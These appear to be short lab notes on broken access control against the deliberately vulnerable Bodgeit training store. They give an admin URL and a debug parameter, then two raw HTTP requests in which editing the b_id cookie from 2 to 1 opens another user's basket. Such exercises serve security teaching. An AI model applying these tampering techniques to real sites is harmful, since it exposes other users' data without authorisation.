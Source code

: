 # A5 - Broken Access Control

## Bodgeit

### Hello admin

`http://bodgeit.lab/bodgeit/admin.jsp`

### Debug please

`http://bodgeit.lab/bodgeit/basket.jsp?debug=true`

### Not my basket

```
GET /bodgeit/basket.jsp HTTP/1.1
Host: bodgeit.lab
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://bodgeit.lab/bodgeit/basket.jsp
Cookie: JSESSIONID=02E607A00E74F587A15899DEB2332938; b_id=2; PHPSESSID=65a0knksrnnnt7k22tb1otjre0
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

Moj kosik `Cookie: b_id=2;` ?


```
GET /bodgeit/basket.jsp HTTP/1.1
Host: bodgeit.lab
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://bodgeit.lab/bodgeit/basket.jsp
Cookie: JSESSIONID=02E607A00E74F587A15899DEB2332938; b_id=1; PHPSESSID=65a0knksrnnnt7k22tb1otjre0
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

